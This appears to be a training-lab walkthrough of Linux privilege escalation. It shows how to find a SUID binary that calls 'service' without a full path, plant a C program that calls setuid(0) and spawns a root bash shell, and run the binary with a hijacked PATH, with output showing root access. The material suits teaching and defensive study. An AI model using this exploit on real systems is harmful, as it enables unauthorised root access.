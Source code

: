 FINDING VULNERABLE PROGRAMS

The PATH environment variable contains a list of directories where the shell should try to find programs.

If a program tries to execute another program, but only specifies the program name, rather than its full (absolute) path, the shell will search the PATH directories until it is found.

Since a user has full control over their PATH variable, we can tell the shell to first look for programs in a directory we can write to.

If a program tries to execute another program, the name of that program is likely embedded in the executable file as a string.

We can run strings on the executable file to find strings of characters.

We can also use strace to see how the program is executing. Another program called ltrace may also be of use.

Running strings against a file:
```bash - target
strings /path/to/file
```

Running strace against a command:

```bash - target
strace -v -f -e execve <command> 2>&1 | grep exec
```

Running e ltrace against a command:

```bash - target
ltrace <command>
```

1. Find SUID/SGID files on the target:

```bash - target
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

-rwsr-sr-x 1 root staff 6883 May 14 2017 /usr/local/bin/suid-env

The suid-env file should execute with root user permissions.

2. Run strings on the SUID file:

```bash - target
strings /usr/local/bin/suid-env
```

/lib64/ld-linux-x86-64.so.2
service apache2 start

The file could be trying to run the service program without a full path.

3. We can verify this with strace:

```bash - target
strace -v -f -e execve /usr/local/bin/suid-env 2>&1 | grep service
```

[pid 14395] execve("/bin/sh", ["sh", "-c", "service apache2 start"],

4. Optionally, we can also verify with ltrace:

```bash - target
ltrace /usr/local/bin/suid-env 2>&1 | grep service
```

system("service apache2 start"

This reveals that the system function is being used to execute the service program.

5. Create a file service.c with the following contents:

==service.c==

---
```c - target

int main() {
 setuid(0);

 system("/bin/bash -p");
}
```
---

6. Compile service.c into a file called service:

```bash - target
gcc -o service service.c
```

7. Prepend the current directory (or where the new service executable is located) to the PATH variable, and execute the SUID file for a root shell:

```bash - target
PATH=.:$PATH /usr/local/bin/suid-env
```

```bash - target
id
```

> uid=0(root) gid=0(root) groups=0(root) ...